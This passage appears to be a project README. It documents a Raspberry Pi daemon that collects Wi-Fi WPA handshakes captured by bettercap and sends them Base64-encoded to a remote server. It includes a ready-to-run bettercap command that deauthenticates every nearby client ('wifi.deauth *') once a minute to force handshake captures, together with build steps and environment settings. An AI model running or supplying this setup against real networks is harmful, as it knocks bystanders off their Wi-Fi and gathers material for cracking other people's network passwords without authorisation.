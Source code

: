 The Raspberry Pi component is designed to **send network captures performed by `bettercap` to the server**. Its functionality is straightforward: you run the `bettercap` daemon on the Raspberry Pi, and it automatically transmits captured handshakes to the server whenever your local Wi-Fi SSID is detected nearby.

> [!NOTE]  
> This feature is **disabled** if the `TEST` environment variable is set to `False`. Ensure that your Raspberry Pi has at least **two network interfaces**, with one interface always connected to a stable network.

> **Tested on Raspberry Pi 5 Model B Rev. 2**

> [!TIP]  
> Update the `wlan1` interface to match your network interface. Make sure your Wi-Fi card supports **monitor mode** and **packet injection**.

---

## **What Does the Daemon Do?**

The daemon performs the following tasks:

1. Acts as a **TCP/IP client** to establish raw network connections.
2. Scans all `.PCAP` files located in the `~/handshakes` directory (typically where `bettercap` saves handshakes).
3. Utilizes the **`gopacket`** library to read `.PCAP` file layers, extracting **BSSID** and **SSID** information, and verifying if a **valid 4-way handshake** exists.
4. If a valid handshake is detected, the daemon **encodes the file in Base64** and sends it to the server.
5. Waits for a predefined **delay period** before repeating the process.

---

## **Run Bettercap**

This configuration sets up `bettercap` to capture handshakes and save them in the correct directory.

```bash
sudo bettercap -iface wlan1 -eval 'set wifi.handshakes.aggregate false; set wifi.handshakes.file ~/handshakes; wifi.recon on; set wifi.show.sort clients desc; set ticker.commands "wifi.deauth *; clear; wifi.show"; set ticker.period 60; ticker on';
```

> [!WARNING]  
> The daemon uses the `HOME` directory as its base. Since `bettercap` requires `sudo`, you must run the daemon as `root`.

---

## **Other Useful Bettercap Commands**

These commands can help you fine-tune your `bettercap` setup:

```bash
sudo bettercap -iface wlan1
wifi.recon BBSID
wifi.recon on
wifi.recon.channel N; # N is the channel to recon
```

---

## **Compile and Run the Daemon**

Make sure the following requirements are met before building and running the daemon:

> [!IMPORTANT]  
> The daemon requires `libpcap0.8-dev` to be installed on your system.

> [!IMPORTANT]  
> The file `/etc/machine-id` must exist on your machine.

1. Comile daemon with:

```bash
cd raspberry-pi
make build
```

2. Run with

```bash
./build/daemon --help
```

but remeber to export these env var first, change them according to your needs

```bash
export SERVER_HOST=localhost
export SERVER_PORT=4747
export TCP_ADDRESS=localhost
export TCP_PORT=4749
export TEST=False
export HOME_WIFI=Vodafone-A60818803 # Change with your SSID of your home Wireless Network
export BETTERCAP=True
```